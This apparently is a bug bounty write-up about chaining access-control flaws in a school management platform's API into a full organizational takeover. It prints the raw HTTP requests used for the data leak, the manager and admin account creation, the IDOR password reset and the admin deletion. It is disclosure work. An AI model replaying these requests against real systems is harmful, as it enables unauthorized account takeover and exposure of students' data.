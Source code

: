 ```yaml
---
title: "Taking Over an Entire Organization - A Journey Through Multiple Bugs"
seoTitle: "Bug Bounty"
datePublished: Mon Jun 12 2023 15:36:47 GMT+0000 (Coordinated Universal Time)
cuid: clit0ovif000p09l7gv5shskj
slug: taking-over-an-entire-organization-a-journey-through-multiple-bugs
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584109939/d21a2887-3fa1-4e1b-b4d5-a347212a4960.jpeg
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584167263/413b0100-0fb7-47d6-b751-17710af05b26.jpeg
tags: hacking, hackernews, penetration-testing, bugbounty, bugbountytips

---
```


## **Introduction**

Today, I want to share a thrilling adventure, a tale of how a few seemingly harmless bugs can snowball into a security nightmare. Through collaborative work with my friend [DreyAnd](https://twitter.com/dreyand_) back in **April 2023,** we managed to expose vulnerabilities that eventually led to a **total organizational takeover.**

## **The Discovery**

Our journey began with an application we were testing - a school management platform designed to enable teachers and managers to control classes, students, examinations, and other resources. The platform boasted a substantial user base of students.

The first issue we spotted was that we needed a way to leak all the data and UUIDs of these numerous students.

Surprisingly, the first bug was found in a place where most would feel secure - the `admin` endpoint. Despite the endpoint itself being inaccessible, we discovered a **Broken Access Control** mechanism under this admin endpoint. Although it should have been locked behind administrative privileges, a properly formatted backend request allowed us to leak a vast amount of user data. This included information from students, teachers, and even admins.

By simply sending a `GET` request to the `/v1/admin/<organization>/customers/getUsers?=*` endpoint, we were able to gather:

* Usernames
    
* User ID
    
* Email Address
    
* Hostname
    
* IP Address
    
* Account Expiration
    

```http
GET /v1/admin/<organization>/customers/getUsers?=* HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

[
  {
    "account_id": "<userid>",
    "avatar_url": "https://api.redacted.com/v2/avatar/?id=1234567",
    "first_name": "Hacker ",
    "last_name": "Admin1",
    "title": "",
    "role": "Administrator",
    "devices": [],
    "email": "hackeradmin@redacted.com",
    "username": "hackeradmin1337",
    "external_person_key": "1234567",
    "end_date": "2027-07-25T00:00:00",
      "last_session": {
        "broadcast_id": "1234-1234-1234-1234-1234ge321",
        "account_id": "<userid>",
        "created": "2027-02-27T17:56:27.4194925",
        "completed": "2027-02-27T17:57:34.0976831",
        "satellite_server_id": 123456,
        "IP": "<IP>",
        "roster_id": 12345,
        "customer_id": "<userid>",
      },
      "created_by": "<creatorid>",
      "roster_id": 54321,
      "name": "creator"
    },
    "schools": [
      {
        "school_id": "<ID>",
        "school_code": "<CODE>",
        "name": "school"
      }
  ]
```

This was our first red flag. Despite being a low-privilege account, we could fetch all the UUIDs we needed for an attack.

Next, we observed that while these **low-privilege accounts could not create admin accounts**, they could, quite strangely, **create manager accounts** which allowed us to do a vertical **Privilege Escalation**.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
Origin: https://www.redacted.com

{
  "first_name": "drey",
  "last_name": "ahnd",
  "username": "DreyAnd",
  "external_person_key": "",
  "email": "hacktus+5@wearehackerone.com",
  "role": "Manager",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<ManagerID>}
```

This was our second clue that things were not quite right.

Our journey didn't stop at the manager level. We sought to determine whether we could escalate our privileges even further to obtain `admin` status. If we could go from a `low-privilege` account to a manager account, what was stopping us from becoming admins?

We discovered two significant bugs that allowed us to elevate our permissions.

The first was a **Privilege Escalation** bug that let us modify our own permissions - the same technique we had used with the `low-privilege` account - and upgrade to an `admin`.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <manager auth>
Origin: https://www.redacted.com

{
  "first_name": "Hacker",
  "last_name": "Admin",
  "username": "hacktus",
  "external_person_key": "",
  "email": "hacktus@wearehackerone.com",
  "role": "Administrator",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<AdminID>}
```

The second bug was an **Insecure Direct Object Reference (IDOR)** that let us modify the data of any existing `admin` account - specifically the email and password. With this capability, we could essentially take over any admin account within the organization.

```http
PUT /v1/<organization>/users/<adminid> HTTP/2
Host: api.redacted.com
Content-Length: 339
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>

[
    {
        "first_name": "tookover",
        "last_name": "by manager",
        "username": "admin",
        "external_person_key": "",
        "email": "test@redacted.com",
        "role": "Administrator",
        "schools": [
            "<ID>"
        ],
        "password": "NewPassword",
    }
]
```

With these newfound bugs, we had effectively breached the heart of the administrative sphere.

## **The Impact**

What came next was something we didn't initially foresee. Using the admin access we had just secured, we managed to delete all other admin accounts, effectively taking over the entire organization.

```http
DELETE /v1/<organization>/users/<userid> HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>
```

Our findings demonstrated the massive impact of these bugs. The organization's integrity was at risk due to the snowballing effect of several vulnerabilities that, individually, may not have appeared as critical threats.

## **Conclusion**

In this journey of discovery, we've learned how crucial it is to understand the implications of seemingly insignificant bugs. More importantly, we have demonstrated how a chain of these bugs can potentially lead to a full organizational takeover.

In the ever-evolving landscape of cybersecurity, there's never been a more important time to ensure the safety of our digital spaces. Remember - when it comes to security, every bug counts, no matter how small it may seem.

*Happy hacking and stay secure!*
